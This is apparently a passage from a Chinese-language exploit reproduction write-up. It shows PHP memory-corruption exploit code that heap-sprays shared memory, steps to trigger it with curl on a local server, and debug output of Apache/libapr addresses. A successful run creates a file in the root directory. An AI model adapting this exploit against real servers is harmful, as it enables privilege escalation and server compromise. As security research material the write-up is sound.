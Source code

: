 ```
$nNumUsed = $evil_zend_array_start_addr + 0x18;

write_mem_qword($nNumUsed,1);

//堆喷

echo “\nSpraying the shared memory start\n\n”;

$shm_region = get_mem_region("/dev/zero");

$evil_shm_start_addr = $evil_string_end_addr;

$evil_shm_end_addr = $shm_region[0][1];

$evil_shm_size = $evil_shm_end_addr - $evil_shm_start_addr;

$evil_shm_mid_addr = $evil_shm_start_addr + 8*((int)(((int)($evil_shm_size/2))/8) + 1);

echo “evil_shm_start:0x”.dechex($evil_shm_start_addr)."\n";

echo “evil_shm_end:0x”.dechex($evil_shm_end_addr)."\n";

echo “evil_shm_size:”.dechex($evil_shm_size)."\n";

for($i = 0;$i<$evil_shm_size;$i+=8){

write_mem_qword($evil_shm_start_addr+$i,$evil_zend_array_start_addr);

}

echo “evil_shm_mid_addr:0x”.dechex($evil_shm_mid_addr)."\n"; `echo “bucket:”.dechex($bucket)."\n";

?>` 
```

利用成功时，会在根目录下，创建hello文件

#### 步骤

##### 根目录显示

```
➜  ~ ls /
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www 
```

##### 让服务器执行恶意php代码

```
➜  ~ curl 127.0.0.1
PID: 19896
/dev/zero start addr:0x7f1f62a32000
/dev/zero end addr:0x7f1f62a4a000
self parent struct addr:0x7f1f62a32040
parent arr addr:0x7f1f62a32040
heap start addr:0xf59000
heap end addr:0x1022000
libapr text start addr:0x7f1f61ffa000
libapr text end addr:0x7f1f6202f000
libapr data start addr:0x7f1f6222e000
libapr data end addr:0x7f1f6222f000
all_buckets addr:0xff0c18
evil prefork_child_bucket start addr:0x7f1f62a321a8
evil prefork_child_bucket end addr:0x7f1f62a321e0
```